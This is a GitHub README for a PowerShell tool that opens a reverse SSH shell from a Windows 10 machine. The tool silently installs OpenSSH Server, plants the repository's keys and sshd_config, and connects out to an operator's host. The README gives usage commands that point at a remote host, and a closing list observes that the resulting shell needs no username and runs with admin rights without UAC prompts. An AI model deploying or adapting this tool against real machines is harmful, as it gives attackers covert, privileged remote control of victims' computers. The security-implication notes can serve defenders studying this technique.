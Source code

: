 # lol-reverseSSHell.ps1
Living Off the LAN Reverse Shell over SSH

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, it will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it by downloading OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Windows VS Unix Reverse SSH Shells, and the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown Usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost and port will connect to a shell under the context of the user that initiated the reverse ssh connection. 
  
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
   
* Admin Privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the user's name or admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  


